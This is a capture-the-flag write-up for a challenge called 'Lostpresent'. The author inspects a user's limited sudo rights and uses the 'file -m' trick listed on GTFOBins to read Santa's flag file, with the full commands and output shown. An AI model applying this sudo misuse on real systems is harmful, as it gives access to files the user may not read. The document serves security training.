


## Lostpresent

## Introduction

The challenge is presented with the following text:
> Clearly, Santa's elves need some more security training. As a precaution, Santa has limited their sudo access. But is it enough?

Also, we are given the following information:
- **Service**: `ssh -p 1211 shelper@3.81.191.176 (password: shelper)`

Let's ssh into the box and try a few commands:

```bash
$ ssh -p 1211 shelper@3.81.191.176
shelper@3.81.191.176's password:
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-1029-aws x86_64)
...
shelper@1211_lostpresent:~$ id
uid=12121(shelper) gid=1000(npole) groups=1000(npole)
shelper@1211_lostpresent:~$ ls -la
total 32
drwxr-xr-x 1 shelper npole 4096 Jan  5 17:10 .
drwxr-xr-x 1 root    root  4096 Dec 16 23:01 ..
-rw-r--r-- 1 shelper npole  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 shelper npole 3771 Apr  4  2018 .bashrc
drwx------ 2 shelper npole 4096 Jan  5 17:10 .cache
-rw-r--r-- 1 shelper npole  807 Apr  4  2018 .profile
drwx------ 2 shelper npole 4096 Dec 16 23:02 .ssh
shelper@1211_lostpresent:~$ ls -la /home/
total 20
drwxr-xr-x 1 root    root  4096 Dec 16 23:01 .
drwxr-xr-x 1 root    root  4096 Jan  5 17:10 ..
drwx------ 1 santa   npole 4096 Dec 16 23:02 santa
drwxr-xr-x 1 shelper npole 4096 Jan  5 17:10 shelper
```

Ok, so let's start to look for our present!

## Elf turned Santa

Actually, a very good hint is given in the description of the challenge. It says that Santa has limited our `sudo` access... so let's see what we can do with `sudo`:

```bash
shelper@1211_lostpresent:~$ sudo -l
Matching Defaults entries for shelper on 1211_lostpresent:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User shelper may run the following commands on 1211_lostpresent:
    (santa) NOPASSWD: /bin/df *, /bin/fuser *, /usr/bin/file *, /usr/bin/crontab -l, /bin/cat /home/santa/naugtylist
```

So we see that we can use some commands as the user `santa` with no password needed.

The first thing that we can think of, is to `cat` the `naugtylist` file impersonating user `santa`. But besides a nice ASCII art and a list of naughty hackers, we don't find anything that might help us get the flag:

```bash
shelper@1211_lostpresent:~$ sudo -u santa /bin/cat /home/santa/naugtylist
                                              zeeedd$$bc
                                            $ " ^""7$$$6$b
                                          .@"  ..     '$$$$       u
                                         :dz@$*-rC"e    $$$   eE" ^$$ d$  .e$$
                                          $*     F@-$L   $$$..$$7. $"d$Lz@$$*
           ...                           z$$$.  $$RJ 3  $$$$$$$"$$"x$$$$$$F"
           $ ""**$L..                  .P* *  **-  $ 'L 4$$$$"J$$2*$$$N$$$
          dF        ^""**N..          d .$ .@C$  ".@.  #dP" 4J$$  '$$$$$$"
        $b$                ^"#**$..   F  ""  *#"*b.*"   3  .J$$     $$$*
        $$"                        #*$$..               4.$$$$$Nr    "L
       $$$                              "#$             $$$$$$$$d    '$b
      @$$F                               J            u$$$$$$$$$$$N..z@
...

Naughty list:
	b0bb
	likvidera
	martin
	morla
	semchapeu
	Steven
	wasa
```

Ok, so maybe there's a cronjob running?

```bash
shelper@1211_lostpresent:~$ sudo -u santa /usr/bin/crontab -l
no crontab for santa
```

Nope, it doesn't look like it. So what can it be?

## Seeking help from GTFOBins

At this point, we can go to https://gtfobins.github.io/ ("*a list of Unix binaries that can be exploited by an attacker to bypass local security restrictions* " as the page presents itself) and look if we find any interesting use of the other binaries that we can execute as `santa`: `df`, `fuser` and `file`.

It turns out that `file` is listed in the page:

<kbd></kbd>

Looking at the information of this binary we find that used with `sudo` can help us access some files with escalated privileges:

<kbd></kbd>

Ok, so let's try to use it with the `/home/santa/` directory, where most probably the flag is located:

```bash
shelper@1211_lostpresent:~$ sudo -u santa file -m /home/santa/
/home/santa//flag_santas_dirty_secret, 1: Warning: offset `AOTW{SanT4zLiT7L3xm4smag1c}' invalid
/home/santa//naugtylist, 1: Warning: offset `                                              zeeedd$$bc' invalid
/home/santa//naugtylist, 2: Warning: offset `                                            $ " ^""7$$$6$b' invalid
/home/santa//naugtylist, 3: Warning: offset `                                          .@"  ..     '$$$$       u' invalid
/home/santa//naugtylist, 4: Warning: offset `                                         :dz@$*-rC"e    $$$   eE" ^$$ d$  .e$$' invalid
/home/santa//naugtylist, 5: Warning: offset `                                          $*     F@-$L   $$$..$$7. $"d$Lz@$$*' invalid
/home/santa//naugtylist, 6: Warning: offset `           ...                           z$$$.  $$RJ 3  $$$$$$$"$$"x$$$$$$F"' invalid
/home/santa//naugtylist, 7: Warning: offset `           $ ""**$L..                  .P* *  **-  $ 'L 4$$$$"J$$2*$$$N$$$' invalid
/home/santa//naugtylist, 8: Warning: offset `          dF        ^""**N..          d .$ .@C$  ".@.  #dP" 4J$$  '$$$$$$"' invalid
/home/santa//naugtylist, 9: Warning: offset `        $b$                ^"#**$..   F  ""  *#"*b.*"   3  .J$$     $$$*' invalid
/home/santa//naugtylist, 10: Warning: offset `        $$"                        #*$$..               4.$$$$$Nr    "L' invalid
/home/santa//naugtylist, 11: Warning: offset `       $$$                              "#$             $$$$$$$$d    '$b' invalid
...
```

And right there in the first line, we have the flag! We got you, Santa!
